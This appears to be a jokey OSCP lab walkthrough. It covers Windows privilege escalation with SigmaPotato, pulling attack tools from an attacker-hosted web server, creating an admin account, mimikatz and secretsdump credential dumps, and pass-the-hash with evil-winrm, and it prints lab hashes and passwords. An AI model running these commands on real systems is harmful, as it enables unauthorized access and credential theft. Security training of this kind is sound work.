# OSCP-A Walkthrough

## ActiveDirectory
* <a href="#intial">Initial Escalation</a>


## Standalone Machines
* <a href="#143">.149</a>
* <a href="#144">.150</a>
* <a href="#145">.151</a>


<div id=initial></div>

Okay we've been given creds to the .141 machine:

<br>

Let's run a quick portscan to figure out what's going on with this machine. For the time being, I don't care about services I just want to know what ports are open and I'll make assumptions - because time and time again I've proven <i>nothing</i> bad ever comes from making assumptions.

```nmap -T4 -Pn --open --top-ports 10000 192.168.233.141```

<br>

Sweet! We have credentials and port 22 is open. Fair assumption, we can probably ssh.

```ssh eric.wallows@192.168.233.141```

<br>

Now you may go straight for some common enumeration like `whoami /priv` or `net users` or something but I, a man of culture will waste so much time and instead use winPEAS. Why? Go away that's why.

Let's get winPEAS into the environment. (If you haven't already, <a href="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS">go download it from here</a>)

And we'll use a Python web server to get the file into the target machine.

On your own machine:

```python3 -m http.server 80```

On your target machine, in <b>Powershell</b> (for those playing along at home change the IP address to your IP. I know it's easy to follow these guides and turn your brain off):

```iwr -uri http://192.168.45.157/winPEASx64.exe -Outfile winPEASx64.exe```

And behold:

<br>

Why am I working out of the Downloads folder? Stop asking questions I am literally giving you answers. Be nice.

```.\winPEASx64.exe```

<br>

Now we're looking for things in <span style="color: #ff0000">RED</span>.

Fun things like this! (Which I pray you never see in client systems but I guarantee you will... you really will...)

<br>

But what we're looking for are privilege escalation opportunities. The main ones taught through OSCP are:

- Service Binary Injections
- DLL Injections
- Unquoted Service Paths
- Excessive Privileges

If you're stuck with any of these or don't like the sound of them because they're technical and therefore scary, the course content covers them all:

<br>

And what you'll notice from winPEAS is that you can often be overloaded with information.

<br>

<br>

<br>

But what I'm most interested in isn't actually in <span style="color: #ff0000">RED</span>. It's this:

<br>

`SeImpersonatePrivilege`

Because just about every time you see this in a hacking challenge, it's what you're supposed to do. According to offsec:<br>

<i>"Non-privileged users with assigned privileges, such as SeImpersonatePrivilege, can potentially abuse those privileges to perform privilege escalation attacks."</i>

Now if you follow course content, they'll get you to use SigmaPotato. Where I've normally used JuicyPotato, I'm going to venture out and try following content for a change. I often find that using the exact tools Offsec teaches you yields better results in their labs.

So let's <a href="https://github.com/tylerdotrar/SigmaPotato/releases/">download SigmaPotato</a>.

And just as we did before, we'll use our Python server to bring it over to the target machine:

```iwr -uri http://192.168.45.157/SigmaPotato.exe -Outfile SigmaPotato.exe```

Theoretically, SigmaPotato should abuse `SeImpersonatePrivilege` to run commands as `NT Authority/SYSTEM`. Let's try it out:

```.\SigmaPotato "whoami"```

<br>

Awesome, that returned nothing and I have no idea how this works. Let's just follow the content and try adding a user.

The format is `net user <username> <password> /add`

```.\SigmaPotato "net user notanaccountant password /add"```

Password is password come hack me.

<br>

Okay and the moment of truth:

```net user```

<br>

Nice! It worked.

Let's go ahead and make the account a Local Administrator while we're at it:

```.\SigmaPotato "net localgroup Administrators notanaccountant /add"```

<br>

We're on fire. 

It's like when you score too many points in <a href="https://www.youtube.com/watch?v=jT5yh2HATEQ">2003's NBA Jam</a> for the PlayStation 2.

<br>

Now let's make use of our elevated account. I'm going to exit this shell and start a new ssh session with our Local Administrator account.

(P.S you'll notice some IPs have changed from here as I came back another day)

```ssh notanaccountant@192.168.162.141```

<br>

Time to have some fun. Lateral movement and compromise of ActiveDirectory (AD) can be done in a million different ways. I'm going to try using <a href="https://github.com/ParrotSec/mimikatz">mimikatz</a>.

Bring it over to the target:

```iwr -uri http://192.168.45.243/mimikatz.exe -Outfile mimikatz.exe```

Execute it:

```.\mimikatz.exe```

Elevate token:

```token::elevate```

And privilege debug:

```privilege::debug```

<br>

Then we can dump some creds! 

```lsadump::sam```

<br>

Taking that first Hash NTLM from the `Administrator` account and throwing it in crackstation.net (because I'm too lazy to whip out hashcat at this point):

<br>

We see the password was "December31". The `support` user also had an easy password:

<br>

<br>

"Freedom1". This might come in handy later. 

Okay let's take a step back. Now that we've got some hashes and plaintext passwords, let's try dumping some secrets. We know from winPEAS that the `celia.almeda` account had AutoLogon credentials, let's see if we can dump them. 

Firstly, install impackets on your Kali machine:

```python3 -m pipx install impacket```

Then we can run `secretsdump` and pass it the Administrators password. Notably, we can also have just passed it the hash we got from mimikatz, but I like knowing the plaintext password as well.

```impacket-secretsdump 'MSO1/Administrator:December31@192.168.162.141'```

OR

```impacket-secretsdump administrator@192.168.162.141 -hashes :3c4495bbd678fac8c9d218be4f2bbc7b```


<br>

Look nice and closely

<br>

Boom! Now we can use celia's account to pivot!

Before we do any pivoting, we're going to need a tunneling tool to do it. I'm told the kids these days use <a href="https://github.com/nicocha30/ligolo-ng">ligolo</a>, so that's what we'll use. Go ahead and follow a guide to set it up if you need, it's pretty cool.

In the meantime, in a tmux window on my Kali machine with the ligolo proxy file:

`./proxy -selfcert`

And then once that's up and running from the Windows machine .141, we need to run the agent:


```evil-winrm -i 10.10.122.142 -u "celia.almeda" -H E728ECBADFB02F51CE8EED753F3FF3FD```

celia password 7k8XHk3dMtmpnC7